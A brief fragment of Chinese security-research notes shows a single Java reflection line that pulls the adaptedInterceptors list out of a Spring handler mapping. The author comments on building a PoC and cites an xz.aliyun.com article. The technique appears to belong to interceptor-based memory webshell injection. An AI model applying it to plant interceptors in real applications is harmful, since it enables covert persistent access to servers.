java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
requestMappingHandlerMapping有adaptedInterceptors这个值，我当时真没看到吐了，还有感觉也是poc构造的有点死板了
后面看了下是有这个值的wwww，下面倒数第二个就是
参考：
https://xz.aliyun.com/t/12047?time__1311=GqGxR70QD%3DG%3DitD%2FYriQGkbcHPWuff%2B7ubD#toc-11